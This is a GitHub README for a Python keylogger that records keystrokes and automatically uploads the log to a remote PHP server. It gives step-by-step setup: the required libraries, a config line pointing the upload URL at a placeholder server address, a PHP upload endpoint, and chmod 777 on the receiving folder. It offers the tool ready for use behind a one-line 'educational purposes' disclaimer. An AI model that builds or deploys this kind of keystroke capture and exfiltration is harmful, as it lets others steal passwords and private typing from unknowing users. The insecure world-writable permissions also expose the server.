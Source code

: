 # Auto Keylogger with Automatic File Upload

This repository contains a Python keylogger that captures keystrokes and automatically uploads the log file to a remote PHP server. The project includes a Python script and a compressed folder (`datas.zip`) that contains the website files needed to handle and store file uploads.

---

## Repository Structure

```
.
├── keylogger.py         # Python script for keylogging and automatic file upload.
├── datas.zip            # Compressed folder containing website files:
│   ├── index.html       # Webpage with file upload form.
│   ├── upload.php       # PHP script to handle file uploads.
│   └── uploads/         # Directory where uploaded files will be stored.
└── README.md            # This file.
```

---

## Prerequisites

### Python Environment
- **Python 3.x** is required.
- Required libraries:
  - `pynput`
  - `requests`

Install them using:
```bash
pip install pynput requests
```

To clone the repository:
```bash
git clone https://github.com/ChetanyaGarg/Auto_Keylogger_py.git
```

### PHP Server Environment
- A web server with PHP support (e.g., **XAMPP**, **WAMP**, **LAMP**).
- Ensure that the `uploads/` folder (inside the unzipped `datas` folder) is writable (on Linux, you might use `chmod 777 uploads`).

---

## Setup Instructions

### 1. Configure the Python Keylogger

1. Open the `keylogger.py` file in your editor.
2. Find the URL configuration section:
   ```python
   # NOTE: You only need to change the 'url' variable to match your server's IP address.
   url = "http://YOUR_SERVER_IP/datas/upload.php"
   ```
3. Replace `YOUR_SERVER_IP` with your server's IP address or domain.
4. Save the changes.

### 2. Set Up the PHP Server

1. **Unzip Website Files:**
   - Extract `datas.zip` into your server’s web directory (e.g., `htdocs` in XAMPP).
   - This creates a `datas` folder containing:
     - `index.html`
     - `upload.php`
     - `uploads/` folder

2. **Adjust Permissions:**
   - Ensure the `uploads/` directory is writable. For Linux:
     ```bash
     chmod 777 /path-to-your-web-root/datas/uploads
     ```

3. **Test Your Server:**
   - Navigate to `http://YOUR_SERVER_IP/datas/index.html` in your browser.
   - Use the file input to select a text file and submit. The file should be processed by `upload.php` and saved in the `uploads/` folder.

---

## Running the Project

1. **Start the Python Keylogger:**
   ```bash
   python keylogger.py
   ```
   - The script logs keystrokes to `log.txt`.
   - When the **ESC** key is pressed, logging stops and `log.txt` is automatically uploaded to your server.

2. **Verify the Upload:**
   - Check the terminal output for the server response.
   - Confirm that the uploaded `log.txt` appears in the `uploads/` folder on your server.

---

## Troubleshooting

- **Upload Failures:**
  - Ensure that the `url` in `keylogger.py` correctly points to your server (only the IP address needs to be updated).
  - Verify that your server is running and accessible.
  - Confirm that the `uploads/` folder inside the `datas` directory has the proper write permissions.

- **Python Errors:**
  - Make sure all required libraries (`pynput`, `requests`) are installed.
  - Check terminal output for error messages and adjust your configuration if needed.

---

## Important Notes

- **Security Notice:**  
  This keylogger is intended for educational purposes only. Always ensure you have the proper permissions before deploying or using a keylogger.

- **Configuration Summary:**  
  **The only change you need to make is updating the server IP in the `keylogger.py` file.** No other modifications should be necessary for the setup.

---

## **License**
This project is licensed under the **MIT License**. You are free to use, modify, and distribute it.


---
